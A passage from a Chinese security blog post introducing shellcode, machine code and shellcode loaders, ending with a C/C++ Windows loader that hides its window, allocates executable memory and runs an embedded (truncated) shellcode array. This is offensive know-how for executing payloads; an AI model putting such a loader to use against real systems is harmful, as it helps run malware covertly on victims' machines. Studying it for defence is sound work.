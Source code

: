 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [zhuanlan.zhihu.com](https://zhuanlan.zhihu.com/p/106651024)

原创AgeloVito合天智汇

0x01 前言
-------

​ 2019年，告别了coder的世界，告别了从前的生活。我决定暂时抛开金钱至上的价值体系，以一个Fucking loser的身份去寻找人生中的三大哲学问题，我是谁，我在哪儿，我在做什么。褪去了互联网行业的尔虞我诈，轻浮缥缈。在这个铺天盖地的泛娱乐时代，我决定去看看大海，去感受下海水的味道，没错，它确实是咸的。当沙滩上的沙子铺满全身的那一刻，我，拥有了几分钟童年。在途中，偶遇了黄河，没错，它确实很黄，并且波涛汹涌。也在这途中，缘分使我进入了曾经告别的安全行业。

0x02 概述
-------

### 1、什么是shellcode

​ 在维基百科中这样解释道：在黑客攻击中，shellcode是一小段代码，用于利用软件漏洞作为有效载荷。它之所以被称为“shellcode”，是因为它通常启动一个命令shell，攻击者可以从这个命令shell控制受损的计算机，但是执行类似任务的任何代码都可以被称为shellcode。因为有效载荷（payload）的功能不仅限于生成shell，所以有些人认为shellcode的名称是不够严谨的。然而，试图取代这一术语的努力并没有得到广泛的接受。shellcode通常是用机器码编写的。

​ 翻译成人话就是：shellcode是一段机器码，用于执行某些动作。

### 2、什么是机器码

​ 在百度百科中这样解释道：计算机直接使用的程序语言，其语句就是机器指令码，机器指令码是用于指挥计算机应做的操作和操作数地址的一组二进制数。

​ 翻译成人话就是：**直接**指挥计算机的机器指令码。

​ 人们用助记符号代替机器指令码从而形成了汇编语言，后来为了使计算机用户编程序更容易，发展出了各种高级计算机语言。但是，无论是汇编语言还是其他各种面向过程异或面向对象的高级语言所写的代码最终都要被相关的翻译编译环境转换成相应的机器指令码，计算机才能运行该段代码，因为计算机只认识机器指令码。

### 3、什么是shellcode loader

​ 人话：shellcode loader 是用于加载和运行shellcode的代码。

### C/C++ 加载方式

```
#include "pch.h"
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")//不显示窗口

unsigned char shellcode[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\......";

void main()
{
    LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode),MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (Memory == NULL) { return; }
    memcpy(Memory, shellcode, sizeof(shellcode));
    ((void(*)())Memory)();
} 
```
